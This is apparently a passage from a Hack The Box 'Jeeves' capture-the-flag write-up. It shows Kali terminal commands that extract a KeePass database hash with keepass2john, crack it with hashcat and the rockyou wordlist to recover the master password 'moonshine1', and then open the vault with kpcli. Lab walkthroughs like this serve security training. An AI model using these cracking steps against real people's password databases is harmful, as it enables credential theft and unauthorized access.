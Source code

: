 Then let's prepare hash to crack.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48


┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ keepass2john CEH.kdbx > CEH.kdbx.hash   
```

Then let's crack the hash.
For the `hashcat` command, I added `--user` option since the username is appended to the hash.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ hashcat -m 13400 -a 0 CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

<SNIP>

$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1

<SNIP>
```

The cracked password is `moonshine1`.

`kpcli` is required to use the kdbx file. So need to install that first.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ kpcli --kdb CEH.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> 
```
